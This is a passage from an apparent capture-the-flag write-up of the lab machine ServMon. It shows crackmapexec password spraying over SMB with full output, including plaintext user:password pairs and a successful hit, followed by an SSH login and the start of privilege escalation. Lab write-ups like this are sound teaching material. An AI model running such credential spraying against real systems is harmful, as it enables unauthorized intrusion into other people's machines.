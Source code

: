 none work there.... lets try ssh and then smb with crackmapexec:
```
crackmapexec smb 10.10.10.184 -u users.txt -p passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk 
```

none work, lets try ssh:
`ssh nadine@10.10.10.184`
password: `L1k3B1gBut7s@W0rk`

and i am in!

User Pwned!

---

### Priv Esc

i look at the C:\

```
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/28/2022   6:02 PM                inetpub
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        2/28/2022   6:55 PM                Program Files
d-----        2/28/2022   6:07 PM                Program Files (x86)
d-----        2/28/2022   7:02 PM                RecData
d-----        2/28/2022   6:35 PM                Shared
d-r---        2/28/2022   7:04 PM                Users
d-----        2/28/2022   6:02 PM                Windows
```
